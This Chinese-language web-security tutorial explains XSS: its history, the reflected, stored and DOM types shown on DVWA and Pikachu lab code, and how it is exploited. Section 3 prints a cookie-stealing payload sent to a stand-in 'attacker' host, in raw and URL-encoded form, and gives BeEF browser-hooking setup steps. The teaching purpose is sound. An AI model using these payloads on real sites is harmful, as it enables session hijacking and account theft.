

# XSS 跨站脚本攻击

## 0. 引言

根据 HackerOne《2020 Hacker Report》，**XSS 漏洞占所有报告漏洞的 23%，排名第一**，是 Web 漏洞中最常见的一类。XSS 的攻击原理是：**网站对用户输入数据未做有效过滤，攻击者将恶意脚本注入页面，诱使受害者打开特定网址后在浏览器中执行**，从而窃取身份、执行敏感操作或实施其他危害。本文讲解 XSS 的起源、分类、利用方法与防御思路。

## 1. 起源与危害：绝不仅仅只是弹框

- **起源**：最早的 XSS 可追溯到 1999 年末微软工程师发现的恶意脚本注入攻击；2000 年 1 月正式定名 "cross-site scripting"（为与层叠样式表 CSS 区分，简称 XSS）；
- **经典案例**：2005 年 10 月 4 日，世界上第一个 XSS 蠕虫 **Samy** 利用 MySpace 漏洞传播，受害者自动关注作者并继续传播恶意代码，最终**超过 100 万用户感染**，作者因此入狱；
- **危害清单**：盗号、钓鱼欺诈、篡改页面、刷广告流量、内网扫描、网页挂马、挖矿、键盘监听、窃取用户隐私等。

只针对 `alert` 弹框做过滤来修复 XSS，是对攻防原理理解不足的典型表现。

## 2. 漏洞分类：反射型、存储型、DOM 型



| 类型 | 触发方式 | 典型场景 | 危害程度 |
|------|----------|----------|----------|
| **反射型**（非持久） | 攻击代码放 URL 参数，需诱骗用户点击 | 搜索框、错误提示回显 | 中（需诱导） |
| **存储型**（持久） | 攻击代码存服务器，访问页面即触发 | 留言板、博客评论、帖子 | **高**（可蠕虫传播） |
| **DOM 型** | 纯客户端，由 JS 操作 DOM 触发，不经过服务端 | innerHTML、eval、document.write | 中（属反射型特例） |

### 2.1 反射型案例（DVWA）

```php
<?php
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';  // 未过滤直接输出
}
?>
```

GET 参数 `name` 未过滤直接 `echo` 输出，输入 `<script>alert(1)</script>` 即触发。反射型与存储型危害没有本质区别，区别只在于 URL 是否包含攻击代码。

### 2.2 存储型案例（DVWA 留言本）

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$message = stripslashes( $message );
$message = mysql_real_escape_string( $message );   // 转义了引号等，但未过滤标签
$query = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```

输入虽经转义入库，但 `<script>` 标签未被过滤，输出到页面即被解析执行——**存储型无需在访问 URL 中包含攻击代码**。

### 2.3 DOM 型案例（Pikachu）

```javascript
// domxss 函数：将输入框内容写入 innerHTML，未做任何过滤
document.getElementById("dom").innerHTML =
    document.getElementById("text").value;
```

由于 `innerHTML` 将输入作为 HTML 解析，输入 `javascript:alert(1)` 作为链接地址即可触发 JS 执行。常见危险 Sink：`innerHTML`、`eval`、`document.write` 等。

## 3. 攻击 XSS 漏洞

### 3.1 窃取 Cookie 劫持会话

1. 构造带恶意脚本的 URL：`<script>alert(document.cookie)</script>`；
2. 让脚本把 Cookie 发送到攻击者服务器（如 `cookie.php?cookie=` 接收并入库）；
3. 攻击者用窃取的 Cookie 修改本地 Cookie（EditThisCookie、Burp Suite 等工具）登录受害者账号。

> 注意：构造链接时要做 **URL 编码**，否则 `+` 连接符会被吃掉导致窃取失败。

```text
# 未编码的原始载荷
message=<script>document.location='http://attacker/cookie.php?cookie='+document.cookie</script>
# URL 编码后（<、>、空格、引号等均被转义）
message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2Fattacker%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E
```

### 3.2 XSS 蠕虫（新浪微博 2011 案例）

2011 年 6 月 28 日新浪微博遭 XSS 蠕虫攻击，受害者自动关注 "hellosamy"、向粉丝发送含攻击链接的私信并发布恶意微博，**16 分钟感染 33000 用户**。其攻击流程：

1. 利用 XSS 漏洞插入恶意 JS；
2. 用 `XMLHttpRequest`（Ajax 核心技术）发送请求：发表微博、关注用户、获取关注者列表并发私信；
3. 微博与私信都含攻击链接 → 攻击代码**自复制、自传播**。

XSS 蠕虫的两个特征：目标网站存在 XSS 漏洞 + 攻击代码自复制传播（依赖社交功能场景）。

> **声明**：在互联网传播 XSS 蠕虫属于违法行为；即使处于合法渗透测试任务，也必须严格控制传播可能性。

### 3.3 其他攻击手法与 BeEF

凡 JavaScript 能实现的功能都可被利用：键盘记录（`onkeypress`）、剪贴板窃取（`paste` 事件）、钓鱼表单等。**BeEF** 是著名的 XSS 攻击框架，集成了大量利用模块：

```shell
$ git clone https://github.com/beefproject/beef
$ cd beef && sudo docker build -t beef .
$ sudo docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
# 得到 hook.js 地址后，插入漏洞页面：
<script src="http://127.0.0.1:3000/hook.js"></script>
# 受害者访问后，在 http://127.0.0.1:3000/ui/panel 即可控制目标浏览器
```

## 4. 小结

- **原理**：未过滤的用户输入被注入页面并在浏览器端执行；
- **三类**：反射型（URL 携带）、存储型（服务器持久化，危害最大）、DOM 型（纯客户端）；
- **利用**：窃取 Cookie 劫持会话、XSS 蠕虫自传播、键盘记录/钓鱼等（BeEF 集成）；
- **防御概览**：输入过滤 + 输出编码（HTML/JS/URL 上下文分别编码）、CSP 限制脚本来源、Cookie 设置 HttpOnly/Secure，详见下一章《XSS 的检测与防御》。

下一章讲解 XSS 的检测与防御。